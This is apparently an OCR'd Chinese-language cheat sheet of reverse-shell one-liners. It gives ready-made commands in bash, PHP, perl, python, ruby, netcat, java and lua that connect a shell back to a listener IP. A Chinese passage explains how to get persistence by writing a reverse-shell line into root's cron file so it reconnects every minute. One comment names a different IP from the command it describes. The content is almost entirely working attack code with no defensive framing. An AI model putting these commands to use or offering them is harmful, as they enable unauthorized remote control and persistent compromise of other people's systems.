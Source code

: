 



```php

PHP：
php -r '$sock=fsockopen("192.168.10.13",8888);exec("/bin/sh -i <&3>&3 2>&3");'

```

```
写入命令到定时任务文件
我们可以在远程主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道远程主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 /var/spool/cron/当前用户命令的文件  内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(debian系列主机)

*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/192.168.10.11/4444 0>&1
#每隔一分钟，向192.168.10.27的4444号端口发送shell

```





```bash
#bash版本：
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

#perl版本:
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#python版本：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#php版本：
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

#ruby版本：
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#nc版本：
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

#java版本
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

#lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
